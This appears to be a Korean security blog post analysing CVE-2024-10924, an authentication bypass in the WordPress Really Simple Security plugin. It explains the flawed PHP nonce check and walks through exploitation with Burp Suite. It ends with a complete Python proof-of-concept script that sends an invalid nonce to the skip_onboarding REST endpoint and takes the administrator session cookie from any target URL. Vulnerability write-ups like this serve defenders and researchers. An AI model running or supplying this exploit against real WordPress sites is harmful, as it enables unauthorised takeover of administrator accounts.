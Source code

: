 ```yaml
---
title: "[CVE-2024-10924] 취약점 분석 보고서"
description: "Really Simple Security plugin 9.0.0 ~ 9.1.1.1 버전에서 발생하는 인증 우회 취약점"
author: khh
date: 2024-12-10 21:00:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, Authentication Bypass, Really Simple Security Plugin, CVE-2024-10924]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **개요**

Really Simple plugin 9.0.0 ~ 9.1.1.1버전에서 발생하는 인증 우회 취약점이다.

이 문제는 2단계 인증이 활성화되어 있는 경우 인증되지 않은 공격자가 임의 계정으로 로그인할 수 있다.

## **분석**

이 취약점은 2단계 인증을 활성화한 사이트에게만 영향을 미친다.

2단계 인증 REST API 작업에서 사용되는 'check_login_and_get_user’ 함수에서 부적절한 검증 오류로 발생한다.

really-simple-ssl\security\wordpress\two-fa\class-rsssl-two-factor-on-board-api.php

```php
	/**
	 * Skips the onboarding process for the user.
	 *
	 * @param WP_REST_Request $request The REST request object.
	 *
	 * @return WP_REST_Response The REST response object.
	 */
	public function skip_onboarding( WP_REST_Request $request ): WP_REST_Response {
		$parameters = new Rsssl_Request_Parameters( $request );
		// As a double we check the user_id with the login nonce.
		$user = $this->check_login_and_get_user( (int)$parameters->user_id, $parameters->login_nonce );
		return $this->authenticate_and_redirect( $parameters->user_id, $parameters->redirect_to );
	}
```

Rsssl_Two_Factor_On_Board_Api 클래스 내의 skip_onboarding 함수를 사용하여 REST API를 통한 인증을 처리하고 있다.

check_login_and_get_user함수로 user_id와 login_nonce 매개변수를 사용하여 사용자를 검증한다.

really-simple-ssl\security\wordpress\two-fa\class-rsssl-two-factor-on-board-api.php

```php
	/**
	 * Verifies a login nonce, gets user by the user id, and returns an error response if any steps fail.
	 *
	 * @param int    $user_id The user ID.
	 * @param string $login_nonce The login nonce.
	 *
	 * @return WP_User|WP_REST_Response
	 */
	private function check_login_and_get_user( int $user_id, string $login_nonce ) {
		if ( ! Rsssl_Two_Fa_Authentication::verify_login_nonce( $user_id, $login_nonce ) ) {
			return new WP_REST_Response( array( 'error' => 'Invalid login nonce' ), 403 );
		}

		/**
		 * Get the user by the user ID.
		 *
		 * @var WP_User $user
		 */
		$user = get_user_by( 'id', $user_id );
		return $user;
	}
```

취약점은 skip_onboarding 함수에서 발생한다. check_login_and_get_user함수에서 잘못된 nonce 값을 전달할 경우 WP_REST_Response 오류를 반환하지만, 반환된 후에 skip_onboarding 함수 내에서 오류를 적절하게 처리하지 않아 유효하지 않은 nonce의 경우에도 함수 처리가 계속되어, 요청에서 전달된 사용자 ID를 기반으로 사용자를 인증하는 authenticate_and_redirect() 를 호출한다. 이 과정에서 사용자의 신원이 검증되지 않았음에도 불구하고 인증이 이루어진다. 
결국 공격자는 인증을 우회해 임의의 계정에 접근할 수 있다.

## **Exploit**

![image.png](assets/posts/one-day/2024-12-10/image-001.png)

취약한 Really simple plugin을 설치하고 Security 탭 Settings로 들어가준다.

![image.png](assets/posts/one-day/2024-12-10/image-002.png)

![image.png](assets/posts/one-day/2024-12-10/image-003.png)

Login Protection 에서 “Enable Two-Factor Authentication”을 활성화 시켜주고, 그 밑에서 이메일 인증도 활성화 시켜준다.

![image.png](assets/posts/one-day/2024-12-10/image-004.png)

계정 정보를 입력하고, burp suite로 패킷을 캡처한다.

![image.png](assets/posts/one-day/2024-12-10/image-005.png)

그리고 skip_onboarding 함수에 잘못된 nonce값을 보내면 user_id에 대한 쿠키를 반환한다.

![image.png](assets/posts/one-day/2024-12-10/image-006.png)

해당 쿠키를 복사해 아까 첫 번째로 캡처한 패킷에 쿠키를 붙여넣는다.

이 상태로 요청을 보내면 2단계 인증을 우회해 로그인이 된다.

![image.png](assets/posts/one-day/2024-12-10/image-007.png)

## **POC**

```python
#!/usr/bin/env python3
import requests
import argparse
import logging

def get_cookie(url):
    logging.basicConfig(level=logging.DEBUG)
    user_id = 1
    endpoint = f"{url}?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
    
    print(f"request url: {endpoint}")
    
    headers = {
            "Content-Type": "application/json",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36",
    }
    
    body = {
            "user_id": int(user_id),
            "login_nonce": "133333337",
            "redirect_to": "/wp-admin/"
    }

    logging.debug(f"Body: {body}")
    
    try:
        res = requests.post(endpoint, headers=headers, json=body, verify=False)
        logging.info(f"status_code: {res.status_code}")
    
    except Exception as e:
        logging.fatal("Error contact to target url")
        return

    logging.info(f"Cookie: {res.headers["Set-Cookie"]}")

def main():
    parser = argparse.ArgumentParser(description='CVE-2024-10924')

    parser.add_argument("-t", "--targeturl", help='[targeturl]', required=True)

    args = parser.parse_args()
    get_cookie(args.targeturl)

if __name__=="__main__":
    main()
```

![image.png](assets/posts/one-day/2024-12-10/image-008.png)